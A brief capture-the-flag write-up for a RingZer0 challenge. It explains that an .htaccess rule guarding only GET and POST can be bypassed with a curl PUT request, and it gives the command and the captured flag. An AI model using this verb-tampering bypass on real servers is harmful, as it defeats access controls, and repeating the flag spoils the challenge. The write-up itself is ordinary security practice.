 # Area 51
An unsecure .htaccess file doesn't account for requests outside GET and POST. We can send a PUT request with curl to obtain the flag.
```
curl --cookie "PHPSESSID=YOUR_SESSION_ID_HERE" -X PUT https://ringzer0ctf.com/challenges/48 -o flag.html
```
Flag: FLAG-w4KRr557y626izv567758O52
